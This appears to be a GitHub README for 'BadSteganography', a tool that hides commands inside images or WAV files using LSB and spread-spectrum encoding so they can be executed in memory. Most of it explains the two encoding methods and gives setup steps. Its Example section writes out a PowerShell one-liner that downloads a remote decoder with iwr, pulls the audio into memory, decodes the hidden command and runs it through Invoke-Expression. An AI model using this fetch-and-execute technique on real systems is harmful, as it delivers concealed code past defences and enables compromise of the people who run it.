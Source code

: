# BadSteganography
Bad Steganography is a repo for encoding commands into images or wav files to execute such in memory. 

# Spread Spectrum Encoding
The steganography method used in the provided script is a form of audio steganography known as spread spectrum encoding. In spread spectrum encoding, the hidden message is embedded in a way that spreads its energy across the frequency spectrum of the carrier signal. This makes the hidden message less susceptible to detection and removal by typical audio processing techniques.

In this specific implementation, the amplitude of the audio samples is modified to represent the binary values of the message. By altering the amplitude, the hidden message is encoded into the audio signal, which can later be extracted using the same method.

# LSB Encoding
The steganography method used in the provided code is called “LSB (Least Significant Bit) steganography.” In this method, the least significant bit of each color channel (RGB) of the pixels in a specified region of an image is replaced with a bit of the secret data. This is done in such a way that the change is not visually noticeable in the image, but the secret data can be retrieved by reading the least significant bits of the color channels in the same region.

# Usage
For the spread spectrum encoding script, grab a audio file.
1. Replace the audio path in the py file
2. Replace the message with whatever command in the py file
![BadSteganographyspread_spectrum_decode txt at main · CharlesTheGreat77BadSteganography](https://github.com/CharlesTheGreat77/BadSteganography/assets/27988707/c184577f-c9b1-4bd6-a2ce-643e0a6abf43)
4. Run the py file and save the length of the message
5. In the decoder, replace the message Length variable to whatever the length of your message is
![Screenshot 2024-01-15 at 1 12 20 PM](https://github.com/CharlesTheGreat77/BadSteganography/assets/27988707/16c9cdc6-ba85-41fb-8beb-d113d976f8b8)
7. Lastly, replace the url in the decoder to where your decoder will be hosted.

# Example
This default payload grabs the contents of the decoder, which then downloads the audio to memory, decodes the message, and executes the command with Invoke-Expression
```
iex(iwr https://raw.githubusercontent.com/CharlesTheGreat77/BadSteganography/main/spread_spectrum_decode.txt).Content | iex
```

